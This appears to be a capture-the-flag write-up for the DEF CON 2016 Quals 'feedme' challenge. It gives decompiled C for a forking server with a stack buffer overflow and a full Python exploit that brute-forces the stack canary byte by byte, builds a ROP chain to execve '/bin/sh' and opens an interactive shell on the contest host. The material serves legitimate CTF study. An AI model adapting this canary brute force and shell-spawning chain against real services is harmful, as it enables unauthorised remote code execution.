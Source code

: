 ```yaml
---
layout: post
title: DEF CON 2016 Quals - feedme
category: writeup
---
```


feedme is a *baby's first* pwnable task.

The binary is a fork-based server. There is an obvious buffer overflow vulnerability in the child process routine.

```c
int handler()
{
	char buf[32];  // [ebp-0x2c]
	int canary;    // [ebp-0xc]

	printf("FEED ME!\n");
	int size = read_byte();
	readn(buf, size);
	// Shows up to 16 bytes. Cannot leak canary with this.
	printf("ATE %s\n", tohex(buf, size, 16));
	return size;
}

void server()
{
	while (1) {
		int pid = fork();
		if (pid == 0) {
			int n = handler();
			printf("YUM, got %d bytes!", n);
			return;
		}
		else {
			waitpid(pid, &status, 0);
			printf("child exit.\n");
		}
	}
}
```

So we can exploit this program by brute-forcing stack canary and doing ROP to get a shell. Classic.

```python
import pwnbox
import struct

def dw(x): return struct.pack("<I", x)

#s = pwnbox.pipe.ProcessPipe("./feedme")
s = pwnbox.pipe.SocketPipe("feedme_47aa9b0d8ad186754acd4bece3d6a177.quals.shallweplayaga.me", 4092)

def exp(pay):
    assert len(pay) < 256
    s.read_until("FEED ME!\n")
    s.write(chr(len(pay)))
    s.write(pay)
    s.read_line()
def brute_canary():
    def check_ok(val):
        exp("a"*32 + ''.join(map(chr, val)))
        return "YUM" in s.read_line()
    canary = [0]*4
    pos = 0
    while pos < 4:
        for x in range(256):
            canary[pos] = x
            print canary
            if check_ok(canary[:pos+1]):
                canary[pos] = x
                pos += 1
                break
    return ''.join(map(chr, canary))

canary = brute_canary()

int80 = 0x806fa20
popeax = 0x809e11a # eax ebx esi edi
ppppr = popeax
pppr = ppppr + 1
ppr = ppppr + 2
pr = ppppr + 3
popecx = 0x806f370 # edx ecx ebx
readn = 0x08048E7E # readn(char* buf, int cnt)
puts = 0x0804FC60
free_bss = 0x080EC68C # 20 byte unused bss space.

pay  = "A"*32
pay += canary
pay += "dead" + "beef" + "oebp"

# readn(free_bss, 12)
pay += dw(readn) + dw(ppr) + dw(free_bss) + dw(12)
# puts(free_bss), for debugging.
pay += dw(puts) + dw(pr) + dw(free_bss)
# edx = NULL (envp), ecx = free_bss+8 (argv)
pay += dw(popecx) + dw(0) + dw(free_bss+8) + dw(0xdeadbeef)
# eax = 11 (SYS_EXECVE), ebx = free_bss (filename)
pay += dw(popeax) + dw(11) + dw(free_bss) + dw(0) + dw(0)
pay += dw(int80)
exp(pay)

# 0
# free_bss  <-- free_bss + 8 (argv)
# /sh\0
# /bin      <-- free_bss (filename)
s.write_line("/bin/sh\0" + dw(free_bss))
s.interact()
```

It took some tries to brute-force the canary in time (there was a 150 second alarm)
because the network delay from Korea to US. Luckily, small canary value helped us.

